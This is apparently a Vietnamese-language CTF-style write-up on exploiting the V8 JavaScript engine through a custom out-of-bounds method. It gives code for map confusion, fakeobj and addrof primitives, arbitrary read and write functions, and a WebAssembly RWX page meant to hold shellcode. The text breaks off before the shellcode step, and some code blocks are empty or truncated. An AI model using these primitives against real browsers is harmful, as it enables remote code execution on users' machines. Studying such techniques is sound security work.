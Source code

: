 ```cpp
```
- tùy theo kiểu mà sẽ trả về value theo kiểu đó, hàm value được định nghĩa trong class của kiểu dữ liệu
- khi có thể write map lúc này ta sẽ có thể control đc kiểu dữ liệu mà v8 sẽ sử dụng, với leak thì ta có địa chỉ của map, với write thì ta control map bằng cách như sau:
- ta có thể tận dụng map để fake 1 địa chỉ ghi vào kiểu float, thành 1 object JSArray, từ đó có thể leak dữ liệu ra,
- object sẽ được fake thông qua 1 JSArray khác bằng cách ghi dữ liệu vào như thông thường
 ```cpp
arb_rw_arr = [itof(flt_map),itof(0x0000000200000000n),1.2,itof((0x1n<<32n))] // only leak 1 addr
console.log("debug arb_rw_arr: ");%DebugPrint(arb_rw_arr)
function fakeobj(val){
  if(val % 2n==0){
    val +=1n
  }
  first = addrof(arb_rw_arr) - 0x20n
  arb_rw_arr[2] = itof(val-0x10n)
  flt[0] = itof(first)
  flt.oob(itof(obj_arr_map))
  result = flt[0]
  flt.oob(itof(flt_map))
  return result
```
- hàm addrof sử dụng để lấy điạ chỉ của 1 object, ta sẽ fake y chang như 1 elements nhưng địa chỉ trong elements phải -0x10n để nó rơi trúng địa chỉ mà ta cần leak hoặc write
- tiếp theo đó là ta sẽ lấy địa chỉ của phần element bắt đầu từ map, rồi ghi địa chỉ đó vào 1 JSArray khác, rồi sau đó ghi map là map của obj array để nó đọc địa chỉ đó thành 1 cái obj array, thay vì nó là 1 float, sau đó gán obj array đó vào 1 biến rồi return, như vậy là ta đã có được 1 fakeobj
- tiếp theo để leak địa chỉ nằm trong 1 địa chỉ khác, ta sẽ tạo 1 float array, gán fakeobj với địa chỉ fake element chứa 1 địa chỉ cần leak vào 1 phần tử của float array, sau đó ghi đè map thành map của obj array, sau đó lấy dữ liệu ra như cách 1 object  chứa trong 1 obj khác, rồi return về giá trị đó
```cpp
function ptrva(val){
  flt_arr = [1.1,2.2,3.3]
  flt_arr[0] = fakeobj(val)
  flt_arr.oob(origin)
  result = flt_arr[0][0]
  flt_arr.oob(itof(flt_map))
  return ftoi(result)
}
```
- giả sử ta có địa chỉ như này:  0x1ed0e780040 —▸ 0x55a651b8d128 , với hàm trên ta leak được 0x55a651b8d128
- tận dụng hàm để leak mọi thứ
- tiếp theo để khai thác arb write ta cũng viết 1 hàm sau đó fake 1 object rồi đè map như hàm trên, nhưng sau đó ta sẽ tận dụng hàm obb để ghi đè
```cpp
function wrivar(addr,val){
  flt_arr = [1.1,2.2,3.3]
  flt_arr[0] = fakeobj(addr-0x8n)
  flt_arr.oob(origin)
  flt_arr[0].oob(itof(val))
  flt_arr.oob(itof(flt_map))
}
```
- sau khi leak có được mọi thứ, ta sẽ tạo 1 page địa chỉ của webassembly để có rwx và ghi shellcode
```cpp
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;
```
- tiếp theo để copy shellcode vào vùng này ta cần leak địa chỉ rw, địa chỉ rw có thể xuất hiện ở 1 số chỗ trong vùng heap nên có thể leak ra
```cpp
```